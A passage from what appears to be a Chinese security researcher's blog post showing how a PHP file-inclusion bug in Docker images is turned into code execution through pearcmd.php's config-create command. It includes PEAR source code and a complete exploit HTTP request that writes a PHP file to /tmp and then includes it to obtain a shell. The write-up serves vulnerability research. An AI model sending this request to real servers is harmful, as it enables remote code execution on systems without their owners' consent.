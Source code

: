 我们再来看到pear中获取命令行argv的函数：

```
public static function readPHPArgv()
{
    global $argv;
    if (!is_array($argv)) {
        if (!@is_array($_SERVER['argv'])) {
            if (!@is_array($GLOBALS['HTTP_SERVER_VARS']['argv'])) {
                $msg = "Could not read cmd args (register_argc_argv=Off?)";
                return PEAR::raiseError("Console_Getopt: " . $msg);
            }
            return $GLOBALS['HTTP_SERVER_VARS']['argv'];
        }
        return $_SERVER['argv'];
    }
    return $argv;
}
```

先尝试`$argv`，如果不存在再尝试`$_SERVER['argv']`，后者我们可通过query-string控制。也就是说，我们通过Web访问了pear命令行的功能，且能够控制命令行的参数。

看看pear中有哪些可以利用的参数：

[![image.png](https://www.leavesongs.com/media/attachment/2021/11/01/5b0b1d97-f739-4d67-b98b-82a6d889bd2c.3c9823576498.png)](https://www.leavesongs.com/media/attachment/2021/11/01/5b0b1d97-f739-4d67-b98b-82a6d889bd2c.png)

第一眼就看到config-create，阅读其代码和帮助，可以知道，这个命令需要传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。

所以，我构造出最后的利用数据包如下：

```
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

[![image.png](https://www.leavesongs.com/media/attachment/2021/11/01/25526495-da6c-4961-899a-0ca4c6c125bf.d5051ae197a8.png)](https://www.leavesongs.com/media/attachment/2021/11/01/25526495-da6c-4961-899a-0ca4c6c125bf.png)

发送这个数据包，目标将会写入一个文件`/tmp/hello.php`，其内容包含`<?=phpinfo()?>`：

[![image.png](https://www.leavesongs.com/media/attachment/2021/11/01/8b834c20-e2bf-434e-a013-b88f518a6ca4.171db8cd1318.png)](https://www.leavesongs.com/media/attachment/2021/11/01/8b834c20-e2bf-434e-a013-b88f518a6ca4.png)

然后，我们再利用文件包含漏洞包含这个文件即可getshell：

[![image.png](https://www.leavesongs.com/media/attachment/2021/11/01/6d4093d4-1c7f-4433-86bb-ee0bb3446359.34a26b4a0765.png)](https://www.leavesongs.com/media/attachment/2021/11/01/6d4093d4-1c7f-4433-86bb-ee0bb3446359.png)

最后这个利用方法，无需条件竞争，也没有额外其他的版本限制等，只要是Docker启动的PHP环境即可通过上述一个数据包搞定。
